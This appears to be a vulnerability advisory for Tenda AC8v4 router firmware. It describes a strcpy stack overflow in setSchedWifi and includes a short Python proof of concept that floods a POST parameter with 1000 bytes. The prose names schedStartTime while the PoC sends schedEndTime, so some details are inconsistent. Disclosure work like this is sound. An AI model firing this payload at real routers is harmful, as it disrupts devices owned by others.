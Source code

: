 # Tenda AC8v4 V16.03.34.06

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/103518

## Affected version

V16.03.34.06

## Vulnerability details

The Tenda AC8v4 V16.03.34.06 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `src` variable receives the `schedStartTime` parameter from a POST request and is later assigned to the `ptr+2` variable, which is fixed at 25 bytes. However, since the user can control the input of  `schedStartTime`, the statement `strcpy((char *)ptr + 2, src);` can cause a buffer overflow. The user-provided  `schedStartTime` can exceed the capacity of the `dest` array, triggering this security vulnerability.

![1735650491449](\img\1735650491449.png)

![1735650523496](\img\1735650523496.png)

![1735650546634](\img\1735650546634.png)

## POC

```python
import requests

url = "http://192.168.1.100/goform/openSchedWifi"
data = {
        "schedEndTime":b'A'*1000
}
requests.post(url=url,data=data)
```

![1735650674572](\img\1735650674572.png)

